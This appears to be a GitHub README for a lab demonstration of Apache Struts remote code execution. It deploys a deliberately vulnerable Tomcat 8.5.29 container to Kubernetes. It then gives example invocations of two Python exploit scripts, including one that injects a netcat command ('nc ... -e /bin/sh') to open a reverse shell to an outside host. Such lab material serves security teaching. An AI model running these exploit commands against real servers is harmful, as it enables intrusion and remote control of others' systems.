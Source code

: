 # Struts Remote Code Execution Demo
Modified scripts that demonstrate remote code execution (RCE) vi command injection into HTML traffic on old version of Apache Tomcat.   
The yaml file will deploy vulnerable container running struts super-app via apache tomcat ver 8.5.29 java website.
The image is pulled via `https://hub.docker.com/repository/docker/skywalke34/struts`

## To deploy the container via yaml file to kubernetes cluster:

`kubectl create -f struts.yaml -n struts`

A service will be created that exposes the super-app website.

To get the ip address of the service:
`kubectl get svc,pods -n struts`
The Apache console will be accessible via `http://<service-ip-address>:8080/`

To access the super-app website, also use the service IP address on port 8080/super-app/orders

*Example:* `http://<:8080/super-app/orders`

Use the IP address from the website with the python scripts to inject a netcat command and sh command to establish a reverse shell from the container.

**struts1.py example**: (see if it's exploitable)
`python3 struts1.py http://xxx.xxx.xxx.xxx:8080/super-app/orders/3 id`

**struts-pwn2.py example:** (insert your own IP addresses / port for the reverse shell)
`python struts-pwn2.py --exploit --url 'http://xxx.xxx.xxx.xxx:8080/super-app/orders/3' -c 'nc -nv 123.456.789.100 1337 -e /bin/sh'`
